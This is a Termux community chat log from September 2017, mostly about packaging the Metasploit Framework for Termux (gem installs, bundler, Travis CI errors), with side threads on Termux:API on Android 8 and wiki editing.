2017-09-06 10:19:02	gitter	(Auxilus) @stephengroat when i tried symlinking msfconsole with $PREFIX/bin, after trying to run msfconsole it gave error

2017-09-06 10:19:34	gitter	(Auxilus) Something like too many links or something like that

2017-09-06 10:25:18	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/272400880?utm_source=github_status&utm_medium=notification shows job is still running and log shows job is terminated 😂

2017-09-06 10:25:28	gitter	(Auxilus) I guess it broke travis 😂

2017-09-06 11:03:46	gitter	(Auxilus) @stephengroat @Grimler91 how can I access metasploit files inside the build?

2017-09-06 11:04:10	gitter	(Auxilus) Is there something like `TERMUX_PKG_DIR`?

2017-09-06 11:07:10	gitter	(Auxilus) Can i use `TERMUX_PKG_BUILDDIR/msfconsole` to access msfconsole from metasploit?

2017-09-06 11:24:35	gitter	(Auxilus) frumpylava : are you online?

2017-09-06 11:59:14	gitter	(Auxilus) TERMUX_PKG_BUILD_DIR: unbound variable

2017-09-06 12:01:55	gitter	(Auxilus) @Grimler91 you have TERMUX_PKG_BUILD_DIR at line 22, it says its an unbound variable

2017-09-06 12:06:15	gitter	(Auxilus) How do I access patch from `/termux-packages/packages/metasploit-framework/` during the build?

2017-09-06 12:08:19	gitter	(Auxilus) Im gonna use `/home/builder/termux-packages/packages/metasploit-framework/extconf.patch.grpc`, will it work?

2017-09-06 12:11:01	gitter	(Auxilus) @Auxilus hopes to get replied :(

2017-09-06 13:30:20	gitter	(Auxilus) @fornwall I'm really sorry for tons of commits that I'm doing in PR

2017-09-06 13:39:09	g093	@Auxilus i thought you were having problems with travis-ci ?

2017-09-06 13:39:39	gitter	(Auxilus) Yeah a commit broke travis-ci

2017-09-06 13:39:49	gitter	(Auxilus) That was old commit tho

2017-09-06 13:40:39	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/272400880?utm_source=github_status&utm_medium=notification

2017-09-06 13:40:55	gitter	(Auxilus) It was running even though job was terminated

2017-09-06 13:59:10	gitter	(Auxilus) I got `ERROR:  Could not find a valid gem '/home/builder/.termux-build/metasploit-framework/src/grpc-1.4.1.gem' (>= 0) in any repository` in travis-ci logs, m building grpc locally

2017-09-06 13:59:19	gitter	(Auxilus) Is it due to absent dependencies?

2017-09-06 14:08:42	txoof	Looking for some help troubleshooting Termux:API

2017-09-06 14:10:13	txoof	I've got Termux:API 0.15 installed from the play store and I've run "apt update" before installing termux-api from the command line.

2017-09-06 14:10:34	txoof	When I try to run any of the termux:API commands I get this: -bash-4.4$ termux-toast cmd: Can't find service: activity

2017-09-06 14:11:01	txoof	I've enabled all the permissions for Termux and Termux:API.

2017-09-06 14:15:36	gitter	(Auxilus) What android version are you on?

2017-09-06 14:21:29	txoof	8.0.0

2017-09-06 14:22:18	txoof	I noticed that there are some bug reports on git for android 7. I was hoping to gather some more useful information to share with the developers to try to fix this.

2017-09-06 14:23:39	gitter	(Auxilus) I think termux on Android 8 has

2017-09-06 14:23:42	gitter	(Auxilus) Some difficulty running

2017-09-06 14:24:49	gitter	(Grimler91) @Auxilus Ops! My bad, it should be $TERMUX_PKG_BUILDER_DIR

2017-09-06 14:25:18	gitter	(Auxilus) Np

2017-09-06 14:25:26	rods-tab3	isn't 8 still in beta ?

2017-09-06 14:25:30	gitter	(Auxilus) I was able to figure that out..

2017-09-06 14:26:03	txoof	@Auxilus: yeah, noticed that some things were wonky.

2017-09-06 14:26:21	txoof	@rods-tab3: nope, got the OTA over the weekend.

2017-09-06 14:26:23	gitter	(Auxilus) @Grimler91 check the latest commits, im implementing all gems and commenting out their respective `gem install`s

2017-09-06 14:27:07	txoof	Broke a bunch of stuff; specifically the ancient, but useful rsync-backup app.

2017-09-06 14:27:34	txoof	It hasn't been supported or updated in ages, so I'm not shocked. I found termux in a quest for getting rsync working again.

2017-09-06 14:27:45	gitter	(Grimler91) @Auxilus Interesting! Uhm, which branch are you on now? patch-{1,2,3,4,5,6,7,...}?

2017-09-06 14:28:06	gitter	(Grimler91) master?

2017-09-06 14:28:58	gitter	(Auxilus) Not sure :p

2017-09-06 14:29:07	gitter	(Auxilus) How do I know that?

2017-09-06 14:30:09	gitter	(Grimler91) git status or git branch in the window you're working

2017-09-06 14:30:25	gitter	(Grimler91) and maybe name them better in the future :smile:

2017-09-06 14:30:31	gitter	(Auxilus) Im working directly on site

2017-09-06 14:30:35	gitter	(Auxilus) Not from cli

2017-09-06 14:31:03	gitter	(Auxilus) It says

2017-09-06 14:31:06	gitter	(Auxilus) Auxilus  wants to merge 21 commits into termux:master from Auxilus:master

2017-09-06 14:31:14	gitter	(Grimler91) Ah, right, so it's the master branch!

2017-09-06 14:31:50	gitter	(Auxilus) You found any solution for `bundle install`?

2017-09-06 14:32:06	gitter	(Auxilus) Cz i see docker uses bundle install

2017-09-06 14:32:33	gitter	(Grimler91) haven't looked at it since yesterday tbh

2017-09-06 14:34:06	gitter	(Auxilus) If travis for https://github.com/termux/termux-packages/pull/1361/commits/f9106a9a7207748b74e28aa8eb9c8973298243c2 checks out then we are a go to add dependencies and test bundler install

2017-09-06 14:34:35	gitter	(Auxilus) It'll take about 10 minutes for travis to complete

2017-09-06 14:35:42	gitter	(Auxilus) @Auxilus gonna celebrate on the day termux gets `apt install metasploit-framework`

2017-09-06 14:37:17	gitter	(Auxilus) @Grimler91 do we need to perform https://wiki.termux.com/wiki/Metasploit_Framework#Fix_shebangs in the build script?

2017-09-06 14:39:32	gitter	(Auxilus) That step will add findutils and termux-tools in dependencies

2017-09-06 14:41:36	gitter	(Grimler91) It is fixed automatically by the build script here: https://github.com/termux/termux-packages/blob/8721fb731b0907297b8a38ea399d43c3402daafc/build-package.sh#L1020

2017-09-06 14:41:36	gitter	(Grimler91) It is run on all newly installed files found in /data/data/com.termux/...

2017-09-06 14:42:20	gitter	(Grimler91) even if we would need to run fix shebang in build script we wouldn't need to add findutils and termux-tools as dependencies

2017-09-06 14:43:00	gitter	(Auxilus) But ls of $PREFIX/bin shows only sh

2017-09-06 14:43:32	gitter	(Grimler91) cause the fix shebang step is then run on the build computer and not on device. TERMUX_PKG_DEPENDS specifies packages needed to run metasploit on device

2017-09-06 14:43:41	gitter	(Auxilus) Also we wouldn't be able to test build script on travis-ci  after we add dependencies

2017-09-06 14:44:08	gitter	(Auxilus) @Grimler91 got it..

2017-09-06 14:44:23	gitter	(Auxilus) Okay...

2017-09-06 14:44:26	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/272605679?utm_source=github_status&utm_medium=notification

2017-09-06 14:44:38	gitter	(Auxilus) Travis-ci checks out

2017-09-06 14:46:22	gitter	(Auxilus) Now we need either frumpylava to test next buids ( as he has dependencies built) or someone else to test on their machine ( with 5hrs just to build dependencies)

2017-09-06 14:47:18	gitter	(Auxilus) @Grimler91 what'd you say?

2017-09-06 14:48:25	gitter	(Grimler91) actually there is some error: "fatal: Not a git repository (or any of the parent directories): .git", but it still exits with status 0

2017-09-06 14:48:44	gitter	(Auxilus) Yeah that error is ignorable

2017-09-06 14:48:59	gitter	(Auxilus) We get it every time when we run Metasploit

2017-09-06 14:50:43	gitter	(Grimler91) When you do "gem unpack rbnacl-libsodium -v'1.0.13'" and "gem build rbnacl-libsodium.gemspec" you haven't specified an installation dir so those file probably end up somewhere other than in $TERMUX_PREFIX/..., this means that they wont be included in the final .deb

2017-09-06 14:51:37	gitter	(Auxilus) Ill fix those right away..

2017-09-06 14:52:19	gitter	(Auxilus) We need to specify installation dir only for `gem install `right??

2017-09-06 14:53:47	gitter	(Grimler91) everything you want to be included in the .deb (i.e. everything you install) needs to go into $TERMUX_PREFIX/, otherwise build-package.sh doesn't find it

2017-09-06 14:55:06	gitter	(Auxilus) So unpack, build install gems at $TERMUX_PREFIX?

2017-09-06 14:56:10	gitter	(Auxilus) I'll do unpacking and building stuff in `$TERMUX_PREFIX/tmp/`

2017-09-06 14:56:16	gitter	(Auxilus) Will that be okay?

2017-09-06 14:56:22	gitter	(Grimler91) gem install --install-dir $TERMUX_PREFIX/lib/ruby/gems/2.4.0 as before I think

2017-09-06 14:56:59	gitter	(Auxilus) For unpacking and building also?

2017-09-06 14:57:48	gitter	(Auxilus) There is no file flag for `gem build`

2017-09-06 14:58:04	gitter	(Grimler91) do the unpacking and building in for example TERMUX_PKG_BUILDDIR, or TERMUX_PKG_SRCDIR

2017-09-06 14:58:34	gitter	(Auxilus) Yeah

2017-09-06 14:58:35	gitter	(Grimler91) if you build in $TERMUX_PREFIX/tmp, all the sources would be included in the file .deb, which isn't what we want

2017-09-06 14:59:27	gitter	(Auxilus) Check https://github.com/termux/termux-packages/pull/1361/commits/028c4021398fefd9ea55a3587fd601d31028bb6e

2017-09-06 14:59:35	gitter	(Auxilus) Ive commented gem install lines

2017-09-06 14:59:46	gitter	(Auxilus) They have install-dir flag

2017-09-06 15:00:00	gitter	(Auxilus) See if its correct..

2017-09-06 15:02:08	gitter	(Grimler91) I think it should go before the name of whatever we are installing, as here: https://stackoverflow.com/a/40762497/5421999

2017-09-06 15:02:46	gitter	(Auxilus) Okay..

2017-09-06 15:03:24	gitter	(Grimler91) And also, the platform is wrong, it should be something else (arm-linux-androideabi, aarch64-linux-android, something-something)

2017-09-06 15:03:24	gitter	(Grimler91) Leave the platform out of it for now

2017-09-06 15:04:03	gitter	(Auxilus) 'k

2017-09-06 15:06:05	gitter	(Auxilus) See now..

2017-09-06 15:06:07	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1361/files#diff-5c712d5ae08a8a183576161f28b88acd

2017-09-06 15:07:28	gitter	(Auxilus) I see we have `--path=<path>` option for bundler

2017-09-06 15:08:30	gitter	(Auxilus) We can do `bundle install --path=$TERMUX_PREFIX/lib/ruby/gems/2.4.0 - j5`

2017-09-06 15:09:57	gitter	(Auxilus) This is what was bothering us right?

2017-09-06 15:10:03	gitter	(Grimler91) Looks good!

2017-09-06 15:10:52	gitter	(Auxilus) Im gonna open commit with bundle install with --path flag

2017-09-06 15:11:17	gitter	(Auxilus) Lets see how it goes

2017-09-06 15:11:17	gitter	(Grimler91) Yes, but the biggest problem remains (I think). We need to target the correct platform (aarch64, arm, i686, x86_64), and cross compile for this platform, AFAIK we don't, currently

2017-09-06 15:12:10	gitter	(Auxilus) We can target each platform then one by one..

2017-09-06 15:12:28	gitter	(Auxilus) Lets see how bundler goes without dependencies

2017-09-06 15:14:20	gitter	(Grimler91) :+1:

2017-09-06 15:14:35	gitter	(Auxilus) We have devices with aarch64, arm, i686 running metasploit

2017-09-06 15:16:05	gitter	(Auxilus) If current commit gives nothimg but dependency errors, I'll add all the dependencies to next commit

2017-09-06 15:24:28	gitter	(Auxilus) @Grimler91 bundle : command not found..

2017-09-06 15:28:42	gitter	(Auxilus) I see..

2017-09-06 15:28:59	gitter	(Auxilus) I have to execute it via directory

2017-09-06 15:29:16	gitter	(Grimler91) It's because the docker image doesn't include it

2017-09-06 15:30:27	gitter	(Auxilus) Got it..

2017-09-06 15:30:39	gitter	(Auxilus) See latest commit, ive corrected it..

2017-09-06 15:30:59	gitter	(Auxilus) `$TERMUX_PREFIX/lib/ruby/gems/2.4.0/gems/bundler-1.15.4/exe/bundle install --path=$TERMUX_PREFIX/lib/ruby/gems/2.4.0 -j5`

2017-09-06 15:31:11	gitter	(Auxilus) Correct?

2017-09-06 15:32:12	gitter	(Auxilus) Works on my device..

2017-09-06 15:32:46	gitter	(Auxilus) Okay, imma go to bed now, see you tomorrow

2017-09-06 15:32:48	gitter	(Auxilus) Gn

2017-09-06 15:33:18	gitter	(Grimler91) you need to run a "bundle" binary that is compiled for the build computer (i.e. x86_84 ubuntu), all the stuff in $TERMUX_PREFIX is compiled for another platform and won't work

2017-09-06 15:35:08	gitter	(Grimler91) so `sudo apt-get install -y  ruby-bundler` is what you need. (Normally we would add it to scripts/setup-ubuntu.sh but that won't work in the travis build)

2017-09-06 15:35:11	gitter	(Grimler91) good night!

2017-09-06 15:58:51	gitter	(Auxilus) @Grimler91 you were right.. Travis gave error..

2017-09-06 16:00:00	gitter	(Auxilus) Is it bcz bundler is looking in 2.3.0  instead of 2.4.0?

2017-09-06 16:01:30	gitter	(Auxilus) We need to add --binstubs flag?

2017-09-06 16:01:47	gitter	(Auxilus) Well we will work on that tomorrow,

2017-09-06 19:05:25	live_the_dream	fornwall: you seen the libandroid pull request?

2017-09-06 19:22:50	rkeene	I still haven't gotten back to my chromebook to push the version I'm using

2017-09-06 19:35:29	live_the_dream	i know i mention this

2017-09-06 19:40:52	live_the_dream	k trying to fix something brb

2017-09-07 01:41:11	gitter	(Auxilus) @Grimler91 I made a little python script to install all the gems from Gemfile.lock one by one

2017-09-07 01:41:43	gitter	(Auxilus) Can I run that script in docker build?

2017-09-07 02:03:35	live_the_dream	don't think you can

2017-09-07 02:04:42	gitter	(Auxilus) Is there any bash syntax to access each line in the file ?

2017-09-07 02:06:29	gitter	(Auxilus) Something like..

2017-09-07 02:06:50	gitter	(Auxilus) ```import os

2017-09-07 02:06:50	gitter	(Auxilus)

2017-09-07 02:06:50	gitter	(Auxilus) file = open("gem")

2017-09-07 02:06:50	gitter	(Auxilus) [full message: https://gitter.im/termux/termux?at=59b0e1f9614889d475cc9ea3]

2017-09-07 02:08:24	timwr	Auxilus what would be the point, bundler does the same thing?

2017-09-07 02:09:08	gitter	(Auxilus) Yeah but bundler is not working

2017-09-07 02:09:14	gitter	(Auxilus) So I thought

2017-09-07 02:09:26	gitter	(Auxilus) Gem install would be alternative to it

2017-09-07 02:58:40	gitter	(Auxilus) @Grimler91 @timwr : I've implemented gem installation process at lates commit, please take a look and tell me if there are any errors..

2017-09-07 02:59:06	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1361/commits/58699724482a1ff3428bd7ee3e512cb2944a14ff

2017-09-07 03:00:13	gitter	(Auxilus) It should be `curl -LO ` instead of `wget`?

2017-09-07 03:10:54	timwr	Auxilus, yesterday I got stuck on the sqlite gem

2017-09-07 03:12:10	gitter	(Auxilus) timwr : where you are testing it?

2017-09-07 03:18:24	timwr	https://github.com/termux/termux-packages/compare/master...timwr:metasploit-framework?expand=1

2017-09-07 03:18:27	timwr	testing on docker

2017-09-07 03:19:13	gitter	(Auxilus) What script are you using?

2017-09-07 03:19:53	gitter	(Auxilus) But that script  is in Ubuntu..

2017-09-07 03:20:03	gitter	(Auxilus) Your bundler worked well?

2017-09-07 03:20:07	timwr	the docker image is ubuntu no?

2017-09-07 03:20:16	timwr	it got stuck on sqlite3

2017-09-07 03:20:18	timwr	but made good progress

2017-09-07 03:20:49	timwr	I don't think we should download external scripts as part of the build process

2017-09-07 03:21:04	gitter	(Auxilus) No thats just for test

2017-09-07 03:21:11	timwr	cool OK

2017-09-07 03:21:20	gitter	(Auxilus) We will all those to packages/metasploit-framework/

2017-09-07 03:21:26	gitter	(Auxilus) Along with build.sh

2017-09-07 03:21:53	gitter	(Auxilus) *add those..

2017-09-07 03:28:08	gitter	(Auxilus) `(Gem::CommandLineError)

2017-09-07 03:28:08	gitter	(Auxilus)     Please specify at least one gem name (e.g. gem build GEMNAME)`

2017-09-07 04:28:35	AmR|EiSa	Did termux tool for get cid for driver ?

2017-09-07 07:00:00	gitter	(suryapoo) Welcome to Termux!

2017-09-07 07:00:00	gitter	(suryapoo)

2017-09-07 07:00:00	gitter	(suryapoo) Online help:     https://termux.com/help

2017-09-07 07:00:00	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b126af210ac2692004424b]

2017-09-07 07:00:03	gitter	(suryapoo) Guys help

2017-09-07 07:28:57	gitter	(suryapoo) ?

2017-09-07 07:37:02	gitter	(suryapoo) Using system-libraries:

2017-09-07 07:37:38	gitter	(suryapoo) Welcome to Termux!

2017-09-07 07:37:38	gitter	(suryapoo)

2017-09-07 07:37:38	gitter	(suryapoo) Online help:     https://termux.com/help

2017-09-07 07:37:38	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b12f81210ac26920046893]

2017-09-07 09:00:07	gitter	(Auxilus) @suryapoo you can use `apt install mariadb` for installing mysql

2017-09-07 09:01:06	gitter	(suryapoo) Yes

2017-09-07 09:01:06	gitter	(suryapoo) Auxi

2017-09-07 09:01:14	gitter	(suryapoo) But if i need to connect my webapp to mysql

2017-09-07 09:01:36	gitter	(suryapoo) I need mysql gem

2017-09-07 09:03:01	gitter	(Auxilus) Not sure if we have local libraries to install the gem...

2017-09-07 09:03:54	gitter	(suryapoo) Ohhhhh

2017-09-07 09:12:35	gitter	(Auxilus) @Grimler91 can you look at latest commit and tell me whats wrong with the code?

2017-09-07 09:46:38	Grimler	Auxilus: `gem install --install-dir $TERMUX_PREFIX/lib/ruby/gems/2.4.0 $line` fails because the gemdeps file contains empty lines

2017-09-07 09:47:25	gitter	(Auxilus) Aha.. Ill remove those real quick

2017-09-07 09:47:37	gitter	(Auxilus) Btw is the scrpt accurate?

2017-09-07 09:54:38	Grimler	I can't really tell, I don't know how the metasploit installation works

2017-09-07 09:55:29	gitter	(Auxilus) We just have to install the gems in the gemdeps one by one

2017-09-07 10:00:39	gitter	(suryapoo) @Auxilus should I file a bug report for mysql gem

2017-09-07 10:12:03	gitter	(Auxilus) Sure..

2017-09-07 10:12:55	gitter	(Auxilus) @Grimler91 still got same error

2017-09-07 10:13:23	gitter	(Auxilus) Is it due to the `\n`?

2017-09-07 10:14:45	gitter	(Grimler91) Could be

2017-09-07 10:15:41	gitter	(Auxilus) Im gonna have to look for new script now..

2017-09-07 10:16:08	gitter	(Auxilus) @Grimler91 yeah its due to \n character

2017-09-07 10:19:28	gitter	(Auxilus) Last resort is to add installation for all gems in build script

2017-09-07 10:22:23	fr33d0m	hi every body

2017-09-07 10:22:57	fr33d0m	someone knows whats the best pkg to crack wpa2?

2017-09-07 10:23:18	gitter	(Auxilus) Termux doesn't support wifi hacking

2017-09-07 10:23:29	fr33d0m	okay ;D

2017-09-07 10:23:37	fr33d0m	but nmap is supported xd

2017-09-07 10:24:24	gitter	(Auxilus) Yeah nmap doesn't interact with wifi afaik

2017-09-07 10:31:14	gitter	(Auxilus) @suryapoo looks like mysql gem needs `libmysqlclient-dev`

2017-09-07 10:36:59	gitter	(Auxilus) @Grimler91

2017-09-07 10:37:23	gitter	(Auxilus) I've added while loop which is working fine

2017-09-07 10:38:28	gitter	(Auxilus) As we haven't yet added dependencies to build script, the gem installation exits with exit code 1 which ends up stopping the build process

2017-09-07 10:49:26	gitter	(Auxilus) frumpylava : you thr?

2017-09-07 10:53:22	gitter	(cocodevienne) Hey!

2017-09-07 10:53:24	gitter	(cocodevienne) @frumpylava

2017-09-07 10:53:31	gitter	(cocodevienne) @Auxilus

2017-09-07 10:53:41	gitter	(suryapoo) @Auxilus ..after installing

2017-09-07 10:53:52	gitter	(suryapoo) That

2017-09-07 10:53:52	gitter	(suryapoo) Is it working

2017-09-07 10:53:56	gitter	(cocodevienne) New jekyll them I made!!

2017-09-07 10:54:22	gitter	(cocodevienne) http://github.com/cocodevienne/Materia

2017-09-07 10:54:24	gitter	(cocodevienne) *theme

2017-09-07 10:54:33	gitter	(Auxilus) @suryapoo mysql gem installed.?

2017-09-07 10:55:14	gitter	(Auxilus) Where is preview @cocodevienne

2017-09-07 10:56:24	gitter	(cocodevienne) The link is in the README.

2017-09-07 10:57:59	gitter	(suryapoo) @Auxilus nope..

2017-09-07 11:05:35	gitter	(cocodevienne) @Auxilus

2017-09-07 11:05:58	gitter	(cocodevienne) This is ny far the best Jekyll theme!!

2017-09-07 11:05:58	gitter	(cocodevienne) *by

2017-09-07 11:06:11	gitter	(cocodevienne) @fornwall

2017-09-07 11:06:24	gitter	(cocodevienne) You should use it for the Termux site...

2017-09-07 12:07:12	gitter	(Auxilus) @Grimler91

2017-09-07 12:07:17	gitter	(Auxilus) Ive added the dependencies

2017-09-07 12:07:19	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1361/commits/e5809d159b548c5fa20ae9965ff88d5f9a8b84a0

2017-09-07 12:08:21	gitter	(Auxilus) Tell me if we can reduce the dependencies, ( I guess we can exclude ruby-dev, ncurses etc)

2017-09-07 12:44:47	gitter	(Auxilus) @fornwall https://travis-ci.org/termux/termux-packages/jobs/272962527 did I brake travis again?

2017-09-07 15:03:30	gitter	(rnauber) @fornwall @all Did someone tried OpenCl yet?

2017-09-07 15:07:53	gitter	(rnauber) https://github.com/termux/termux-packages/pull/1346

2017-09-07 19:39:53	g093	2 nu ?s at https://wiki.termux.com/wiki/FAQ

2017-09-07 19:40:33	g093	rewrite of https://wiki.termux.com/wiki/Editors

2017-09-07 19:41:19	g093	how many other editors / kinds of editors do we have ?

2017-09-07 21:16:49	g093	https://wiki.termux.com/wiki/Talk:Main_Page

2017-09-07 23:03:10	Slowarea	Hi

2017-09-07 23:03:40	g093	hello

2017-09-07 23:03:50	gitter	(Auxilus) Sup!

2017-09-07 23:06:22	g093	@Auxilus What do you think of https://wiki.termux.com/index.php?title=Special:RecentChanges&limit=250

2017-09-07 23:08:04	gitter	(Auxilus) Which one??

2017-09-07 23:08:15	gitter	(Auxilus) Lot of contrib you have there btw

2017-09-07 23:12:18	gitter	(Auxilus) g093 : I think that we dont need sep pages for descriptions of nokogiri and apt

2017-09-07 23:13:24	gitter	(Auxilus) Also are those all packages mentioned [here]

2017-09-07 23:13:25	gitter	(Auxilus)  (https://wiki.termux.com/wiki/Image_Editors) installable in termux?

2017-09-07 23:14:33	g093	tnx @Auxilus to sum up

2017-09-07 23:15:00	g093	https://wiki.termux.com/wiki/Main_Page and

2017-09-07 23:15:15	g093	did it load correctly?

2017-09-07 23:15:37	g093	sep pages for all

2017-09-07 23:15:40	gitter	(Auxilus) Yeah

2017-09-07 23:15:49	g093	that might be too much

2017-09-07 23:15:58	g093	but not for some

2017-09-07 23:16:25	gitter	(Auxilus) g093 : termux doesn't have a gui..

2017-09-07 23:16:48	gitter	(Auxilus) So that word shouldn't be there..

2017-09-07 23:17:13	g093	@Auxilus https://github.com/termux/termux-packages/issues/1314 imagemagick still seg faults

2017-09-07 23:17:31	g093	@Auxilus Termux is a GUI

2017-09-07 23:17:39	gitter	(Auxilus) No, it works fine on my device

2017-09-07 23:17:53	g093	PART OF THE SCREEN IS MORE LIKE A UI

2017-09-07 23:18:13	g093	but for the most part Termux is a GUI

2017-09-07 23:18:54	gitter	(Auxilus) Yeah but thats only for EXTERNAL changes(env settings)  , you dont use it to directly interfere the programming

2017-09-07 23:20:00	g093	float is one'ellaGUI

2017-09-07 23:21:52	g093	@Auxilus https://wiki.termux.com/wiki/Talk:GUI

2017-09-07 23:22:37	gitter	(Auxilus) Well,

2017-09-07 23:22:49	gitter	(Auxilus) We'll see what frumpylava thinks..

2017-09-07 23:22:55	gitter	(Auxilus) He is admin after all

2017-09-07 23:23:45	g093	Termux:float comes close to Eterm; Can we make it better or as good as Eterm on Android?

2017-09-07 23:25:07	g093	@Auxilus can you ask frumpy to fix it https://wiki.termux.com/wiki/Talk:Main_Page

2017-09-07 23:26:07	gitter	(Auxilus) Yeah sure, he's been offline for 2days..

2017-09-07 23:26:39	g093	ask me

2017-09-07 23:27:04	gitter	(Auxilus) https://wiki.termux.com/wiki/Hex_Editors

2017-09-07 23:27:09	g093	and ill say solution is starring in our faces

2017-09-07 23:27:16	gitter	(Auxilus) Do these packages work in termux?

2017-09-07 23:27:24	g093	wiki.termux.github.io

2017-09-07 23:27:43	g093	@ wiki.termux.com

2017-09-07 23:27:48	g093	captch

2017-09-07 23:27:52	g093	CAPTCH

2017-09-07 23:28:10	g093	I WILL NOT CAPTCH

2017-09-07 23:28:29	g093	well u know i make an exception @present

2017-09-07 23:28:58	gitter	(Auxilus) Boi, do those packages or editors work in termux?

2017-09-07 23:29:00	g093	@Aucilus do they work on your Termux?

2017-09-07 23:29:19	g093	as as i know

2017-09-07 23:29:25	g093	the function

2017-09-07 23:29:33	g093	id like to say

2017-09-07 23:29:39	g093	flawlessly

2017-09-07 23:29:59	g093	the function *they function

2017-09-07 23:31:45	g093	as as *as far as

2017-09-07 23:31:50	gitter	(Auxilus) Man.. You added those pages in wiki, if those dont work in termux then there is no point adding those info to wiki..

2017-09-07 23:32:13	g093	@Auxilus which packages?

2017-09-07 23:32:34	gitter	(Auxilus) You are providing search links for readers.. https://wiki.termux.com/wiki/Image_Editors#Ruby

2017-09-07 23:32:42	g093	if they don't work they should

2017-09-07 23:32:47	g093	like cargo

2017-09-07 23:32:56	g093	like imagemagick

2017-09-07 23:33:37	g093	Looking for image processing library for pure Ruby

2017-09-07 23:33:42	g093	are u ?

2017-09-07 23:33:43	gitter	(Auxilus) They come to wiki to get direct info, if they get a search link in wiki, they'll thought 'wth, if this is the case I could have searched it on my own'

2017-09-07 23:34:07	g093	wiki is wiki know all

2017-09-07 23:34:17	g093	if it don't work

2017-09-07 23:34:21	g093	fix it

2017-09-07 23:34:26	g093	if you can

2017-09-07 23:35:02	g093	have u tried any image priccessor in Termux @Auxilus?

2017-09-07 23:35:28	g093	priccessor *proccessors

2017-09-07 23:35:34	gitter	(Auxilus) @fornwall

2017-09-07 23:35:36	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/273152805?utm_source=github_status&utm_medium=notification

2017-09-07 23:35:37	g093	which ones worked

2017-09-07 23:35:46	g093	which ones worked well

2017-09-07 23:36:09	gitter	(Auxilus) Is this due to server ran out of space or the package is too big do get built by travis?

2017-09-07 23:36:15	g093	which ones worked beyond expectation?

2017-09-07 23:36:29	g093	travis-ci

2017-09-07 23:36:31	g093	gmb

2017-09-07 23:36:38	gitter	(Auxilus) Also I see that termux's build is failing

2017-09-07 23:36:50	gitter	(Auxilus) https://travis-ci.org/termux/termux-packages/builds/273152805?utm_source=github_status&utm_medium=notification#

2017-09-07 23:36:57	g093	on their machines

2017-09-07 23:37:28	g093	how is building going in your smartphone @Auxilus?

2017-09-07 23:37:50	gitter	(Auxilus) We cant build packages in Android yet

2017-09-07 23:38:21	gitter	(Auxilus) And I don't have access to linux machine to test the build

2017-09-07 23:38:52	gitter	(Auxilus) So I habe to rely on travis-ci or other people

2017-09-07 23:38:58	gitter	(Auxilus) *have

2017-09-07 23:39:07	g093	how much space do we want on our phone?

2017-09-07 23:39:20	g093	126GB $40USD

2017-09-07 23:39:26	gitter	(Auxilus) For metasploit-framework?

2017-09-07 23:39:36	g093	Who needs travis gmb?

2017-09-07 23:39:48	gitter	(Auxilus) whats gmb?

2017-09-07 23:39:52	g093	get 2 phobes

2017-09-07 23:40:01	g093	phobes *phones

2017-09-07 23:41:20	gitter	(Auxilus) We still don't know package size, untill build succseeds

2017-09-07 23:41:43	g093	@Auxilus Germany DE DEU

2017-09-07 23:41:58	g093	time

2017-09-07 23:42:06	g093	pink?

2017-09-07 23:43:34	g093	play-audio inact dvr is an option @pres$nt

2017-09-07 23:47:51	g093	@Auxilus some of the packeges from termux.net don't work with terux-apt-repo

2017-09-07 23:49:40	g093	subprocess.CalledProcessError: Command '['ar p storage/external-1/debs/termux.net/dists/stable/main/binary-arm/brogue-1.7.4_arm.deb control.tar.xz | tar --to-stdout -xJf - ./control']' returned non-zero exit status 2.

2017-09-07 23:50:11	g093	any idea why?

2017-09-07 23:52:09	g093	any¹?

2017-09-07 23:59:51	g093	i wonder how debating GUI & Termux would look at a tech symposium?

2017-09-08 00:10:35	gitter	(sdrausty) https://github.com/termux/termux-packages/issues/1398

2017-09-08 00:19:18	g093	@fornwall can u +wiki.termux.com to motd please

2017-09-08 00:19:54	g093	please do not limit our community to g+ 

2017-09-08 00:21:35	gitter	(sdrausty) Some of the packages from termux.net don't work with termux-apt-repo #1398

2017-09-08 00:27:06	auxilus	..

2017-09-08 00:27:07	gitter	(sdrausty) $ termux-apt-repo storage/external-1/debs/termux.net/dists/stable/main/binary-arm/ ty/

2017-09-08 00:27:07	gitter	(sdrausty) Adding deb file: aapt_7.1.2.33-1_arm.deb...

2017-09-08 00:27:07	gitter	(sdrausty) Adding deb file: abduco_0.6_arm.deb...

2017-09-08 00:27:07	gitter	(sdrausty) [full message: https://gitter.im/termux/termux?at=59b21c1b162adb6d2e7c9c42]

2017-09-08 00:29:29	auxilus	Yo , how do I expand main chat screen in weechat ?

2017-09-08 00:29:55	auxilus	I wanna get rid of those rooms section and users section

2017-09-08 01:11:21	gitter	(Hax4us) proot --link2symlink tar xvf filename.tar.gz

2017-09-08 01:11:21	gitter	(Hax4us) It is giving error while extraction.... Why it is working properly in some devices and not in some devices..

2017-09-08 01:11:21	gitter	(Hax4us) Proot errors are different in different devices 👎

2017-09-08 01:11:21	gitter	(Hax4us) [full message: https://gitter.im/termux/termux?at=59b22678210ac2692008996f]

2017-09-08 01:11:41	gitter	(Hax4us) Anybody have any idea ?

2017-09-08 01:21:45	g093	weechat is way cool in Termux

2017-09-08 01:21:55	g093	pintch n pull

2017-09-08 02:17:01	danpalm	Help

2017-09-08 02:17:13	danpalm	#

2017-09-08 02:25:37	gitter	(Auxilus) Ty g093

2017-09-08 02:26:52	Auxilus	ty g093

2017-09-08 02:28:11	frumpylava	Hey guys. @Auxilus and Ux (which one of you is Ux?) I saw your recent changes to the wiki. There's some really good stuff now, like the new revamped Editor Pages. Here's some notes: Please stop linking to Placeholder page on the Main Page. If there is no content we won't link to it yet (because the wiki is now "public" and not just a construction site). Why is there now a poem (?) on the Touch keyboard page?

2017-09-08 02:28:13	frumpylava	Also, can we chill with the Emoji? I am not entirely against them, but we don't need an emoji for every word that has a corresponding emoji.

2017-09-08 02:28:34	frumpylava	But seriously, if we're going to have poetry, can it at least be a Limmerick?

2017-09-08 02:30:00	Auxilus	frumpylava : Ux is g093 = @sdrausty

2017-09-08 02:30:38	danpalm	Hi everyone I'm new here and look forward to assisting here.

2017-09-08 02:30:55	Auxilus	frumpylava : tell me if you are free , cz I gotta test the build script ( I think its ready )

